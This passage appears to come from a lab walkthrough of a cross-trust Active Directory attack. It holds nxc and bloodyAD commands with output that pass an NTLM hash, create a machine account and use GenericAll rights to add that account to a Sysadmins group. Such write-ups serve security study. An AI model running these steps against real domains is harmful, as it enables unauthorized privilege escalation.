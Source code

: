 ## Foreign MAQ

As we did before to enumerate the `MachineAccountQuota` on `antennae.rv`, we can do the same for `backward.rv`. Due to the bidirectional trust, we can use the credentials of any user in `antennae.rv` to query `backward.rv`. In this case, we'll use the credentials of `natasha.lim`:

```
~$ nxc ldap dc02.backward.rv -u 'natasha.lim' -H '0a1bc6b13cd3106322a6d5bbb0293e44' -d 'antennae.rv' -M maq
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:antennae.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] antennae.rv\natasha.lim:0a1bc6b13cd3106322a6d5bbb0293e44 
MAQ         10.5.10.12      389    DC02             [*] Getting the MachineAccountQuota
MAQ         10.5.10.12      389    DC02             MachineAccountQuota: 10
```

We can create a new computer account in `backward.rv`, using `natasha.lim`'s credentials:

```
~$ nxc smb dc02.backward.rv -u 'natasha.lim' -H '0a1bc6b13cd3106322a6d5bbb0293e44' -d 'antennae.rv' -M add-computer -o NAME="gatari$" PASSWORD='P@ssw0rd' 
SMB         10.5.10.12      445    DC02             [*] Windows Server 2022 Build 20348 x64 (name:DC02) (domain:backward.rv) (signing:True) (SMBv1:False) (Null Auth:True)
SMB         10.5.10.12      445    DC02             [+] antennae.rv\natasha.lim:0a1bc6b13cd3106322a6d5bbb0293e44 
ADD-COMP... 10.5.10.12      445    DC02             Successfully added the machine account: "gatari$" with Password: "P@ssw0rd"
```

## Abusing GenericAll on Group, again

Now that we have a computer account in `backward.rv`, we can use the `GenericAll` permissions that the `Maintainers` group has on the `Sysadmins` group to add our computer account to the `Sysadmins` group:

```
~$ bloodyAD --host 'dc02.backward.rv' -u 'natasha.lim' -p ':0a1bc6b13cd3106322a6d5bbb0293e44' -d 'antennae.rv' add groupMember 'sysadmins' 'gatari$'                                          
[+] gatari$ added to sysadmins
```

We can verify that our computer account is indeed a member of the `Sysadmins` group:

```
~$ nxc ldap dc02.backward.rv -u 'gatari$' -p 'P@ssw0rd' -M whoami                                                        
LDAP        10.5.10.12      389    DC02             [*] Windows Server 2022 Build 20348 (name:DC02) (domain:backward.rv) (signing:None) (channel binding:Never) 
LDAP        10.5.10.12      389    DC02             [+] backward.rv\gatari$:P@ssw0rd 
WHOAMI      10.5.10.12      389    DC02             Name: gatari
WHOAMI      10.5.10.12      389    DC02             sAMAccountName: gatari$
WHOAMI      10.5.10.12      389    DC02             Enabled: Yes
WHOAMI      10.5.10.12      389    DC02             Password Never Expires: No
WHOAMI      10.5.10.12      389    DC02             Last logon: Never
WHOAMI      10.5.10.12      389    DC02             Password Last Set: Never
WHOAMI      10.5.10.12      389    DC02             Bad Password Count: 0
WHOAMI      10.5.10.12      389    DC02             Distinguished Name: CN=gatari,CN=Computers,DC=backward,DC=rv
WHOAMI      10.5.10.12      389    DC02             Member of: CN=Sysadmins,CN=Users,DC=backward,DC=rv
WHOAMI      10.5.10.12      389    DC02             User SID: S-1-5-21-2163652167-2436585246-2491459670-1605
```
